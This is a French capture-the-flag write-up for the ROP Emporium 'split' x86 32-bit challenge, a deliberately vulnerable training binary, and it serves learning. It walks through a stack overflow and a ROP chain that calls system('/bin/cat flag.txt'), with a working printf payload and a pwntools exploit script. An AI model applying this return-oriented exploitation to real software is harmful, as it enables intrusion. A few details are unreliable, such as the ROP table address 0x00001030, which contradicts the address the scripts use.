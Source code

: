 ```yaml
---
Title: Ropemporium x86_32 split
Date: 2023-06-12
Tags: [linux, python, ROP, x86_32, ropemporium, write-up]
Categories: [tutorial]
Author: cdpointpoint
---
```



# split x86_32

## Introduction.

Dans ce second exercice on doit passer une argument à la fonction appelée.
L'argument est présent dans le programme.

La démarche est la même qu'en x86 64 avec deux différences.
- la taille des registres est de 32 bits donc la sauvegarde de ebp occupe 4 bytes au lieu de 8 en 64 bits.
- Le passage des paramètre s'effectue exclusivement sur la pile.


## Analyse

On regarde le code de la fonction pwnme :

```
gef➤  disas pwnme
Dump of assembler code for function pwnme:
   0x080485ad <+0>:	push   ebp
   0x080485ae <+1>:	mov    ebp,esp
   0x080485b0 <+3>:	sub    esp,0x28
   0x080485b3 <+6>:	sub    esp,0x4
   0x080485b6 <+9>:	push   0x20
   0x080485b8 <+11>:	push   0x0
   0x080485ba <+13>:	lea    eax,[ebp-0x28]
   0x080485bd <+16>:	push   eax
   0x080485be <+17>:	call   0x8048410 <memset@plt>
   0x080485c3 <+22>:	add    esp,0x10
   0x080485c6 <+25>:	sub    esp,0xc
   0x080485c9 <+28>:	push   0x80486d4
   0x080485ce <+33>:	call   0x80483d0 <puts@plt>
   0x080485d3 <+38>:	add    esp,0x10
   0x080485d6 <+41>:	sub    esp,0xc
   0x080485d9 <+44>:	push   0x8048700
   0x080485de <+49>:	call   0x80483c0 <printf@plt>
   0x080485e3 <+54>:	add    esp,0x10
   0x080485e6 <+57>:	sub    esp,0x4
   0x080485e9 <+60>:	push   0x60
   0x080485eb <+62>:	lea    eax,[ebp-0x28]
   0x080485ee <+65>:	push   eax
   0x080485ef <+66>:	push   0x0
   0x080485f1 <+68>:	call   0x80483b0 <read@plt>
   0x080485f6 <+73>:	add    esp,0x10
   0x080485f9 <+76>:	sub    esp,0xc
   0x080485fc <+79>:	push   0x8048703
   0x08048601 <+84>:	call   0x80483d0 <puts@plt>
   0x08048606 <+89>:	add    esp,0x10
   0x08048609 <+92>:	nop
   0x0804860a <+93>:	leave
   0x0804860b <+94>:	ret
End of assembler dump.
```
On voit que la lecture se fait 40 octets avant l'adresse contenue dans ebp.

   0x080485eb <+62>:	lea    eax,[ebp-0x28]

L'offset de débordement est donc de 44 (0x2c) octets.

La fonction utile présente dans le code est  :

      gef➤  disas usefulFunction
      Dump of assembler code for function usefulFunction:
         0x0804860c <+0>:	push   ebp
         0x0804860d <+1>:	mov    ebp,esp
         0x0804860f <+3>:	sub    esp,0x8
         0x08048612 <+6>:	sub    esp,0xc
         0x08048615 <+9>:	push   0x804870e               ; "/bin/sl"
      => 0x0804861a <+14>:	call   0x80483e0 <system@plt>
         0x0804861f <+19>:	add    esp,0x10
         0x08048622 <+22>:	nop
         0x08048623 <+23>:	leave
         0x08048624 <+24>:	ret
      End of assembler dump.

Elle appelle la fonction system avec la chaine de caratère "/bin ls".
On pourra donc viser un retour en usefulFunction+14 pour executer un commande.

PAr ailleurs, chaine de caractère utile pour afficher el flag est disponible dans le code.

      /w/ropemporium/x32/split# rabin2 -z split32
      [Strings]
      nth paddr      vaddr      len size section type  string
      ―――――――――――――――――――――――――――――――――――――――――――――――――――――――
      0   0x000006b0 0x080486b0 21  22   .rodata ascii split by ROP Emporium
      1   0x000006c6 0x080486c6 4   5    .rodata ascii x86\n
      2   0x000006cb 0x080486cb 8   9    .rodata ascii \nExiting
      3   0x000006d4 0x080486d4 43  44   .rodata ascii Contriving a reason to ask user for data...
      4   0x00000703 0x08048703 10  11   .rodata ascii Thank you!
      5   0x0000070e 0x0804870e 7   8    .rodata ascii /bin/ls
      0   0x00001030 0x0804a030 17  18   .data   ascii /bin/cat flag.txt

A l'adresse 0x0804a030 on trouve la chaine "/bin/cat flag.txt".

## Construction de l'attaque.

Notre objectif va être d'appeller la fonction system en appellant l'adresse 0x0804861a avec en paramètre l'adresse la la chaine "/bin/cat flag.txt" : 0x0804a030.

Pour passer le paramêtre il nous faut simplement placer sur la pile l'adresse de la chaine de caractère avec l'adresse de l'appel system.


### La ropchaine

La chaine de rop est simplement :

| ROP entry | comment |
| ----------- | ------- |
| 0x00001030 | @ /bin/cat flag.txt |
| 0x0804861a | appel system |


## Exploitation

### En bash

```sh
   w/ropemporium/x32/split# printf "%44s\x1a\x86\x04\x08\x30\xa0\x04\x08" A |./split32
   split by ROP Emporium
   x86

   Contriving a reason to ask user for data...
   > Thank you!
   ROPE{a_placeholder_32byte_flag!}
```

### En python

``` python

#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
import time

gs='''
b *pwnme+89
c
'''

#context(terminal=['tmux', 'split-window', '-h'])
# Set up pwntools for the correct architecture
elf =  ELF('split32')
context.binary=elf
# context(terminal=['tmux'])

useful_str=elf.symbols["usefulString"]
useful_fun=elf.symbols["usefulFunction"]

offset=0x2c

io = process([elf.path])
#io = gdb.debug([elf.path],gdbscript=gs)
# gdb.attach(io,gs)
time.sleep(.5)

print(f"{useful_str=:x}")
print(f"{useful_fun=:x}")

io.recvuntil(b"> ")

# On retourn en useful_fun pour sauter l'affectation de edi dans la fonction
PL=offset*b"A"+p32(useful_fun+14)+p32(useful_str)
io.sendline(PL)
io.interactive()

```







